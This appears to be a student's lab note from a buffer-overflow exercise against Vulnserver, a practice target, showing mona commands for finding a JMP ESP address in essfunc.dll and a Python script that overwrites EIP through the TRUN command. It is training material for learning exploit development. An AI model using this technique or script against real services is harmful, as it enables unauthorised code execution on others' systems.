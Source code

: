Finding the right module

Thursday, June 22, 2023

10:22 PM

 

Mona module added to vulnserver folder

 

![](006_Finding_the_right_module_000.png){width="13.354166666666666in" height="5.75in"}

 

!mona modules - looking for all false and attached to vulnserver directly. First one is good candidate.

 

Finding jmp code to esp using nasm_shell

![](006_Finding_the_right_module_001.png){width="9.604166666666666in" height="2.9791666666666665in"}

 

 

Finding ff and e4 !mona find -s \"\\xff\\xe4\" -m essfunc.dll

![](006_Finding_the_right_module_002.png){width="11.916666666666666in" height="5.583333333333333in"}

 

Start at top and work down to figure out what works.

 

New python code with return address found from pointers but in reverse order 625011af becomes \"\\xaf\\x11\\x50\\x62\" x86 wants little endian format

 

 

#!/usr/bin/python

 

 

import sys, socket

 

 

shellcode = \"A\" \* 2002 + \"\\xaf\\x11\\x50\\x62\"

 

try:

 

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

 

s.connect((\'192.168.1.221\',9999))

 

s.send((\'TRUN /.:/\' + shellcode))

 

s.close()

 

 

except:

 

print (\"Error connecting to the server\")

 

sys.exit()

 

![](006_Finding_the_right_module_003.png){width="4.3125in" height="3.1041666666666665in"}

 

F2 set break point

![](006_Finding_the_right_module_004.png){width="5.739583333333333in" height="3.4479166666666665in"}

 

 

 

 

 

 

 

When you see our value in the eip you know we control it

![](006_Finding_the_right_module_005.png){width="4.958333333333333in" height="2.46875in"}

 
